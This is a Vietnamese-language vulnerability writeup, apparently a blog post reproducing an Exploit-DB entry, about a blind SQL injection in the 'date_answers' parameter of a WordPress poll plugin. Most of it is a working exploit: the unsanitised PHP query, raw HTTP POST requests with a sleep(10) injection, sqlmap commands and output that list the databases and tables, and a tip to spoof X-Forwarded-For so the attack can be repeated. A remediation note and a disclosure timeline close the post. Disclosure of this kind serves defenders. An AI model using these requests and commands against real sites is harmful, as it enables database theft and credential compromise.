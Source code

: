 ```yaml
---
title: WordPress Plugin Poll, Survey, Questionnaire and Voting system 1.5.2 - 'date_answers' Blind SQL Injection
date: 5/07/2021
layout: single
header:
  teaser: /assets/images/wordpress.png
--- 
```


## Mô tả
Tác giả khai thác: inspired - Toby Jackson

Một lỗ hổng đã được phát hiện trong plugin wpdevart wordpress "Poll, Survey, Questionnaire and Voting system" phiên bản 1.5.0 và 1.5.2. Có thể thực hiện chèn SQL mù vào tham số date_answers [] khi bỏ phiếu. Điều này có thể được sử dụng để kết xuất cơ sở dữ liệu back end. Phiên bản 1.5.2 yêu cầu thay đổi tiêu đề bằng phương pháp thích hợp để giả mạo địa chỉ IP, chẳng hạn như X-Forwarded-For

Nguồn khai thác [exploits/50052](https://www.exploit-db.com/exploits/50052)
## Vulnerable Code 

Mã dễ bị tấn công nằm trong trang front_end.php trong hàm save_poll_in_databese (). Nó lấy $ question_id và $ current_user_ip trước khi lưu trữ phiếu bầu trong một biến có tên là $ new_voted_array, như được thấy bên dưới, từ tham số bài đăng date_answers

```php
$new_voted_array=$_POST['date_answers'];

```
Sau đó, mảng được lặp lại và biến $ new_answer được sử dụng như một phần của truy vấn where mà không bị khử trùng.

```php
if($new_voted_array)
  foreach($new_voted_array as $new_answer)  {
    $wpdb->query('UPDATE '.$wpdb->prefix.'polls SET vote = vote+1 WHERE `question_id` = '.$question_id.' AND `answer_name` = '.$new_answer.'');

```

## Demo 
```shell
------
POST /blog/wp-admin/admin-ajax.php?action=pollinsertvalues HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 67
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/blog/index.php/2021/06/09/research/
Cookie: wordpress_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3538f3f44a02304781e099f970dc762fd89e88378a46613cf636fcd28a9755d3; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3d7d7b6485e1daa04da753dcc4e85a56150091301de3668ffe108e7829134f0d; wp-settings-time-1=1623238438

question_id=1&poll_answer_securety=5b29ac18fe&date_answers%5B0%5D=sleep(10)
------

```
Bằng cách sử dụng điều này, cơ sở dữ liệu có thể dễ dàng được kết xuất bằng cách nắm bắt yêu cầu, với một bộ đánh chặn như burpsuite và sử dụng sqlmap. Bằng cách đặt dấu * tại điểm tiêm cần thiết, sqlmap sẽ kiểm tra vị trí này trước tiên.


```shell 
------
POST /blog/wp-admin/admin-ajax.php?action=pollinsertvalues HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 67
Origin: http://localhost
DNT: 1
Connection: close
Referer: http://localhost/blog/index.php/2021/06/09/research/
Cookie: wordpress_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3538f3f44a02304781e099f970dc762fd89e88378a46613cf636fcd28a9755d3; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3d7d7b6485e1daa04da753dcc4e85a56150091301de3668ffe108e7829134f0d; wp-settings-time-1=1623238438

question_id=1&poll_answer_securety=5b29ac18fe&date_answers%5B0%5D=*
------

```
Lưu tập tin này dưới dạng  request.txt và chạy công cụ.

```shell
------
python sqlmap.py -r request.txt --dbms=mysql --dbs --level=5 --risk=3

[14:30:54] [INFO] testing MySQL
[14:30:54] [INFO] confirming MySQL
[14:30:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.46
back-end DBMS: MySQL >= 8.0.0
[14:30:54] [INFO] fetching database names
[14:30:54] [INFO] fetching number of databases
[14:30:54] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[14:30:54] [INFO] retrieved: 2
[14:30:54] [INFO] resumed: information_schema
[14:30:54] [INFO] resumed: wordpress
available databases [2]:
[*] information_schema
[*] wordpress
------
```
```shell
------
python sqlmap -r request.txt --dbms=mysql -D wordpress --tables --level=5 --risk=3

Database: wordpress
[19 tables]
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_democracy_a        |
| wp_democracy_log      |
| wp_democracy_q        |
| wp_links              |
| wp_options            |
| wp_polls              |
| wp_polls_question     |
| wp_polls_templates    |
| wp_polls_users        |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
------
```
Trong các phiên bản 1.5.1 và 1.5.2, lỗ hổng này chỉ xảy ra trong lần bỏ phiếu đầu tiên mà người dùng bỏ qua. Thêm tiêu đề X-Forwarded-For ngẫu nhiên vào các yêu cầu sẽ cho phép lặp lại cuộc tấn công như mô tả ở trên.

Điều này đã được chứng minh trong PoC sau

+ [https://youtu.be/Fj1zeXNxDYQ](https://www.youtube.com/watch?v=Fj1zeXNxDYQ
)
+ [https://youtu.be/P1r7gk0DSaM](https://www.youtube.com/watch?v=Fj1zeXNxDYQ
)

Kẻ tấn công có thể kết xuất cơ sở dữ liệu back-end của máy chủ và giành quyền truy cập vào thông tin đăng nhập của người dùng mà sau đó có thể được sử dụng để thực hiện các hành vi độc hại khác. Nếu được định cấu hình không chính xác, nó cũng có thể dẫn đến việc kẻ tấn công có thể thực thi mã từ xa trên máy chủ

## Nền tảng bị ảnh hưởng 
Các trang web WordPress chạy plugin "Poll, Survey, Questionnaire and Voting system" phiên bản 1.5.2 (các phiên bản cũ hơn cũng có thể bị ảnh hưởng).

## Cách khắc phục
Bản cập nhật đã được sửa trong phiên bản 1.5.3, vì vậy bạn nên cập nhật lên phiên bản này nếu sử dụng plugin.

## Thời gian công bố 

+ 9/6/2021: Lỗ hổng bảo mật được xác định.
+ 9/6/2021: Nhà phát triển đã thông báo về lỗ hổng bảo mật.
+ 9/6/2021: Nhà cung cấp trả lời để thảo luận chi tiết hơn về lỗ hổng bảo mật.
+ 9/6/2021: Đã gửi bằng chứng khái niệm cho nhà cung cấp và các khối mã bị ảnh hưởng.
+ 10/6/2021: Email của nhà cung cấp để thông báo lỗ hổng bảo mật đã được khắc phục.
+ 10/6/2021: Bản sửa lỗi ban đầu được xác nhận, nhà cung cấp vui lòng tiết lộ lỗ hổng bảo mật.
+ 10/6/2021: CVE được yêu cầu.
+ 19/6/2021: Liên hệ với WPScan để thảo luận về lỗ hổng bảo mật.
+ 19/6/2021: Bản sửa lỗi đã xác nhận không hợp lệ khi người dùng mới bỏ phiếu hoặc chỉnh sửa tiêu đề.
+ 10/6/2021: Đã liên hệ với nhà cung cấp để yêu cầu sửa chữa thêm.
+ 22/6/2021: Nhà cung cấp xác nhận bản sửa lỗi. Thông tin được công khai.
